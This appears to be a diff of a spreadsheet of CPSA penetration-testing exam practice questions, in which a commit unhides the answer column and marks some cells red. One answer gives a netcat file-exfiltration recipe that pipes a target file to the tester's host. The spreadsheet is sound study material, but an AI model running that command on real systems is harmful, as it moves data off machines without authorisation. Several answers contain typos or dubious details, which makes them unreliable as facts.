

Before and after one commit to Hackin7/ExamSnippet, an Excel workbook: Tools/Excel Management System/CPSA Questions.xlsx, sheet PracticeQns1, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
fix: cpsa correct answers

```diff
--- a/Tools/Excel Management System/CPSA Questions.xlsx (sheet PracticeQns1)
+++ b/Tools/Excel Management System/CPSA Questions.xlsx (sheet PracticeQns1)
@@ column C (Answer) unhidden, rows 153-171: 520 | Java Server Pages | Get-HotFix | Open Shortest Path First |  | Found | The service inhabitant of all "Trustedinstaller" has all privileges. | xp_set_privilege | 16 Bytes with 128 bits | In the Beacon Frames. | arsenal4 | Encrypt the card number, but exclude username and address from the credit card ↵ including CVV. | It is a MS-SQL server whoch states for an incorrect syntax near keyword. | There will be a problem if the form is not sent with "application/x-www-formurlencoded". | Direct attempts to access this package would result in a "403 Forbidden" response. | The Router decrements TTL values of packets by one when routing and discard packets ↵ whose TTL value has reached zero. | 1500 | On your host run "nc -l 80 > out.txt", and on the target run "type file.txt | nc <yourhost> ↵ 80" | Layer 2 @@
-D158:D161 fill: none
+D158:D161 fill: #FF0000
-D164:D167 fill: none
+D164:D167 fill: #FF0000
```
Also changed, not shown: cell formats elsewhere in this sheet, sheet Questions 2, formulas that keep their value, 1 other file.
